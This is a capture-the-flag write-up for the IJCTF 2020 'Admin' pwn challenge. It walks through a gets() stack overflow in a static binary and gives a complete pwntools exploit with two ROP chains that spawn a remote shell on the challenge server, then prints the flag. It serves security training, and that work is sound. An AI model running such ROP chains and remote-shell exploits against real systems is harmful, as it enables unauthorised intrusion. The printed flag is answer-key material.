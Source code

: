 # IJCTF 2020

## Admin

> 100
> 
> This admin thinks his system is very safe Is it actually safe? I say it's safe what do you think?
> 
> `nc 35.186.153.116 7002`
> 
> Challenge file: [https://github.com/linuxjustin/IJCTF2020/blob/master/pwn/admin](admin)
> 
> Author: zilikos

Tags: _pwn_ _bof_ _gets_ _remote-shell_


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### File

```
admin: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=0ee31668ec040c05db870d1fcef7e198c0a53d37, stripped
```

Statically linked relatively large binary.  ROP rich.


#### Decompile with Ghidra

```c
void FUN_00400b4d(undefined8 param_1,undefined *param_2)

{
  int iVar1;
  char *pcVar2;
  undefined local_48 [64];
  
  FUN_004104e0("Username: ",param_2);
  FUN_00410330(local_48,param_2);
  pcVar2 = "admin";
  iVar1 = thunk_FUN_004004ce(local_48);
  if (iVar1 == 0) {
    FUN_004104e0("Welcome admin",pcVar2);
  }
  else {
    FUN_0040f6b0("Bye %s\n",local_48);
  }
  return;
}
```

"`main`" looks pretty basic; 64-byte buffer (`local_48`), prompt for `Username:`, assume `FUN_00410330` reads input from stdin, and check for a match.

Assuming `FUN_00410330` is `gets`, test with:

```bash
# cyclic 100 | ./admin
Username:
Bye aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Segmentation fault
```

Probably `gets`.

Stack diagram from Ghidra:

```
undefined         AL:1               <RETURN>
undefined8        RDI:8              param_1
undefined *       RSI:8              param_2
undefined1        Stack[-0x48]:1     local_48                                
```

Buffer is `0x48` bytes above return address.  With large static binary and _No PIE_, attempt ROP.

#### ROP options

Both:

```bash
ropper --file admin --chain "execve cmd=/bin/sh" --badbytes 0a
```

and

```bash
ROPgadget --binary admin --ropchain
```

return ROP chains for a shell.  Time to test.


### Exploit

#### Send `0x48` bytes:

```python
#!/usr/bin/env python3

from pwn import *

#p = process('./admin')
p = remote('35.186.153.116', 7002)

#p.recvuntil('Username: \n')
payload = 0x48 * b'A'
```

> This works locally, but remotely I had to comment out the `recvuntil`--probably a buffering issue on their end.


#### Send ROP chain

Option A: (ropper):

```python
IMAGE_BASE_0 = 0x0000000000400000 # 09c2fc813db5d38d1a82c5049191b426ffcd29dfdc71bf33b5630dae57b2f56b
pp = lambda x : p64(x)
rebase_0 = lambda x : pp(x + IMAGE_BASE_0)

rop = b''
rop += rebase_0(0x000000000000da9b) # 0x000000000040da9b: pop r13; ret;
rop += b'//bin/sh'
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000068609) # 0x0000000000468609: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000da9b) # 0x000000000040da9b: pop r13; ret;
rop += pp(0x0000000000000000)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000068609) # 0x0000000000468609: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010193) # 0x0000000000410193: pop rsi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x000000000004bcc6) # 0x000000000044bcc6: pop rdx; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000015544) # 0x0000000000415544: pop rax; ret;
rop += pp(0x000000000000003b)
rop += rebase_0(0x0000000000074d15) # 0x0000000000474d15: syscall; ret;
```

Option B: (ROPgadget):

```python
rop  = b''
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e0) # @ .data
rop += p64(0x0000000000415544) # pop rax ; ret
rop += b'/bin//sh'
rop += p64(0x000000000047f321) # mov qword ptr [rsi], rax ; ret
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000444aa0) # xor rax, rax ; ret
rop += p64(0x000000000047f321) # mov qword ptr [rsi], rax ; ret
rop += p64(0x0000000000400686) # pop rdi ; ret
rop += p64(0x00000000006b90e0) # @ .data
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000449765) # pop rdx ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000444aa0) # xor rax, rax ; ret
rop += 59 * p64(0x0000000000474770) # add rax, 1 ; ret
rop += p64(0x000000000040123c) # syscall
```

Both `ropper` and `ROPgadget` output Python2 code, the above were converted for Python3.

> Both were tested.

Then:

```python
payload += rop

p.sendline(payload)
p.interactive()
```

Run it.

Output:

```
# ./exploit.py
[+] Opening connection to 35.186.153.116 on port 7002: Done
[*] Switching to interactive mode
$ ls
admin
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
```

#### Flag

```
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
```
